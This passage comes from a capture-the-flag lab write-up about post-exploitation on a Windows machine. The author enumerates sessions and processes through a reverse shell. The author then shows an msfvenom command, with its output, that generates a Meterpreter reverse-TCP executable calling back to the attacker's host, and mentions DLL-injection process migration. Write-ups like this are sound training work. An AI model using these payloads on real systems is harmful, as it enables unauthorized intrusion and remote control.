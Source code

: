 After some painful *manual* enumeration, I found one thing stands out:

```shell
PS > qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE 
 console           edavies                   1  Active                      
```

> `qwinsta` is a command that displays information about sessions on a Remote Desktop Session Host server. The list includes information not only about active sessions but also about other sessions that the server runs. (From [https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/qwinsta](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/qwinsta))

Wait... **There's another `edavies` user logged in and remain active on this `Acute-PC01` machine?**

**Processes:**
```shell
PS > Get-Process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                  
-------  ------    -----      -----     ------     --  -- -----------                                                  
     71       5     3672       4104       0.00   6064   1 cmd                                                          
[...]
    855      34    74064      88180       1.09   6000   1 powershell                                                   
[...]
```

Process `powershell` and `cmd`? I can't tell someone is also on this machine...

**Maybe we could take a screenshot of this machine, so we can figure this out??**

Then, I tried [this StackOverflow post](https://stackoverflow.com/questions/2969321/how-can-i-do-a-screen-capture-in-windows-powershell) to take a screenshot via PowerShell, it did took a screenshot, but it's an empty, transparent PNG image... Maybe I need to **migrate the current PowerShell reverse shell process to another process via DLL injection??**. But that's way above my head...

**So, I change the reverse shell to the Metasploit's Meterpreter shell, because it has a command called `screenshot`.**

- **Generate a Meterpreter reverse shell:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|14:03:28(HKT)]
└> msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=tun0 LPORT=53 -f exe -o revshell_meterpreter_stageless.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 200774 bytes
Final size of exe file: 207360 bytes
Saved as: revshell_meterpreter_stageless.exe
```
